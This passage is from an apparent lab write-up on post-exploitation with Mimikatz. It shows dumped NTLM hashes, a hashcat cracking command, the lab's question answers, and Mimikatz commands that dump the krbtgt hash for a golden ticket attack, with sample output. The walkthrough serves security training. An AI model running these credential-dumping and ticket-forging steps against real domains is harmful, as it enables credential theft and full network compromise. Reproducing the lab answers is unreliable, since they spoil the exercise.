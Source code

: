 ```
RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

### Crack those hashes w/ hashcat﻿

1.) `hashcat -m 1000 <hash> rockyou.txt`

![](2025-05-31-post-exploitation-basics-20.png)

Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz.

### **Questions**

* what is the Machine1 Password? Answer: `Password1`
* What is the Machine2 Hash? Answer: `c39f2beb3d2ec06a62cb887fb391dee0`

```
RID  : 00000454 (1108)
User : POST
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0
```

## Golden Ticket Attacks w/ mimikatz

![](2025-05-31-post-exploitation-basics-21.png)

Again using the same tool as the previous task; however, this time we’ll be using it to create a golden ticket. We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

### Dump the krbtgt Hash

﻿1.) `cd downloads && mimikatz.exe`

2.) `privilege::debug` ensure this outputs `privilege "20" ok`

﻿3.) `lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

```
mimikatz # lsadump::lsa /inject /name:krbtgt

Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166
RID  : 000001f6 (502)
User : krbtgt
 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 <<SNIP>>

```